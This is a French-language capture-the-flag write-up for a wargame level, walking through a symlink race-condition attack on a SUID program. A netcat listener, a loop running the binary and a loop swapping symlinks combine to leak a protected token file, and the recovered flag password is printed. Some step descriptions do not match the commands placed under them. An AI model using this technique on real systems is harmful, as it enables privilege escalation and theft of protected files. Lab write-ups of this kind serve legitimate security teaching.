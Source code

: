 # Level10

```bash
ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

1) Analyse des permissions et du fonctionnement initial :
    - Lorsque vous examinez les permissions du fichier exécutable level10, vous remarquez qu'il a le bit SUID activé (-rwsr-sr-x+). Cela signifie que lorsqu'il est exécuté, il s'exécute avec les privilèges de l'utilisateur propriétaire du fichier, flag10 dans ce cas.

    - En exécutant ./level10 sans arguments, vous remarquez qu'il attend deux arguments : le premier est un fichier à envoyer, et le deuxième est l'hôte de destination. Si vous n'avez pas accès au fichier, il affiche "You don't have access to [nom du fichier]".

    - Vous découvrez que le programme se connecte à un hôte distant, probablement sur un port spécifique. Cependant, l'hôte cible n'est pas spécifié.

```bash
/level10
./level10 file host
        sends file to host if you have access to it

./level10 token localhost
You don't have access to token

./level10 /bin/ls localhost
Connecting to localhost:6969 .. Unable to connect to host localhost
```
```bash
echo '.*( )*.' > /tmp/swap;
```
2) Découverte du port cible :
    - Pour déterminer le port cible, vous créez un fichier vide nommé /tmp/swap contenant le motif .*( )*.. Ce motif sera utilisé pour filtrer les données reçues.
    - Vous démarrez un serveur Netcat en mode écoute (nc -l 6969) pour capturer les données envoyées par level10. Le filtre tr -d '.*( )*.' permet de supprimer les caractères spéciaux de ces données.
```bash
(while true; do nc -l 6969 | tr -d '.*( )*.'; done)& 
```

3) Création de liens symboliques :
    - Vous créez un script qui crée continuellement des liens symboliques (ln -fs) du fichier /tmp/swap vers /tmp/toto et du fichier token vers /tmp/toto.

```bash
(for (( ; ;)); do ~/level10 /tmp/toto 127.0.0.1 &> /dev/null; done;)&
```
4) Capture des données :
    - Maintenant, lorsque level10 est exécuté en continu avec /tmp/toto comme argument et en redirigeant vers l'adresse IP 127.0.0.1, il envoie continuellement des données.
    - Ces données sont interceptées par le serveur Netcat, filtrées à l'aide du motif, et stockées dans un fichier, prêt à être analysées.
```bash
for (( ; ; )); do         ln -fs /tmp/swap /tmp/toto;         ln -fs ~/token /tmp/toto; done;
```

5) Récupération du jeton :
    - Les liens symboliques sont continuellement modifiés pour pointer vers le fichier token. Le serveur Netcat filtre ces données et stocke le résultat dans un fichier.

Lorsque tout cela est en place, level10 envoie continuellement des données vers le serveur Netcat, qui les filtre et stocke le résultat dans un fichier. Parallèlement, les liens symboliques sont modifiés pour pointer vers le fichier token. Cette combinaison d'actions vous permet de récupérer le contenu de token et d'obtenir le jeton du niveau suivant.

```bash
su flag10
woupa2yuojeeaaed06riuj63c
```
